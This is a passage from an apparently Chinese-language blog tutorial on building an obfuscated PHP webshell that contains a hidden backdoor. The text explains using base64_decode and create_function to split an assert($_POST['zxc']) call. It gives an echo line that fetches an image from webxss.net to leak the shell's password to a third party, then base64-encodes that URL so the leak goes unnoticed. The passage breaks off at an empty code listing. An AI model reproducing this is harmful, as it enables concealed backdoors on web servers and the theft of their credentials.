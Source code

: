 
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3f2alRzn50JykHR71a0icCWwvicLKjL4HILoQla3fgkia8e0FUy7XL1qDw/640?wx_fmt=png)

$b 是 base64_decode  
$c 是 create_function

  
倒数第二句，把 assert($_POST['zxc']); 分开  
密码放在中间，实现可以让别人改密码的功能  

然后后门语句就是：  
echo '<img src="http://webxss.net//index.php?do=api&id=Iqc5u4&location=pw:'.$pw.'" />';

用图片的方法访问接口，把密码扔过去。

  
**直接这样暴露了接口地址，容易被发**现  
  
因此编码混淆一下：  

1. 把 < img src="http://webxss.net//index.php?do=api&id=Iqc5u4&location=pw: 进行 base64 编码： 

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3sCWIGolbUmbdlYEIDXfwuq4oo9H9icrtoBCwAXmiadgtvyibg9zlw4nrg/640?wx_fmt=png)

2. 使用的时候，用 base64_decode 解码就好了  

具体代码：

| 

01

02

03

04

05

06

07

08

09

10

11

12

13

14

15

16

 | 

